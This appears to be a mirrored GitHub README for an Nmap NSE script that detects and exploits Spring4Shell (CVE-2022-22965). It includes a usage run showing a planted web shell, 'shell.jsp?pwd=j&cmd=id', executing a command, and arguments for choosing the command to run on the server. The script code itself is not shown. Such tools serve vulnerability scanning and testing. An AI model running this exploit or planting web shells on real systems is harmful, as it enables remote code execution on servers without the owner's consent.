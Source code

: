 # nmap-spring4shell

Nmap Spring4Shell NSE script for Spring Boot RCE (CVE-2022-22965) 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gpiechnik2](https://github.com/gpiechnik2) |
| Url      | [https://github.com/gpiechnik2/nmap-spring4shell](https://github.com/gpiechnik2/nmap-spring4shell)                                               |
| Stars    | 6                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-22965* exploit* nmap* nmap-scripts* spring4shell* vulnerability

</details>

## Readme

# Nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified endpoint.

## Vulnerability
See [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/).

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- `endpoint` - relative url. On `https://bugspace.pl/search/videos` it will be `/search/videos`,
- `command` - command to be run on the server.  The default command is `id`,
- `assertion` - the checked string inside the server response. The default assertion is `uid`,
- `filename` - file name on the server. For more information see [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The default name is `shell`.

## Additional data
Tested on application from [here](https://github.com/BobTheShoplifter/Spring4Shell-POC) and [here](https://github.com/reznok/Spring4Shell-POC)

## License
Same as Nmap. See https://nmap.org/book/man-legal.html



## Get the content

```
git clone https://github.com/gpiechnik2/nmap-spring4shell
cd nmap-spring4shell
```

{% embed url="https://github.com/gpiechnik2/nmap-spring4shell" %}

<figure><img src="https://avatars.githubusercontent.com/u/48253270?v=4" alt=""><figcaption><p>gpiechnik2</p></figcaption></figure>
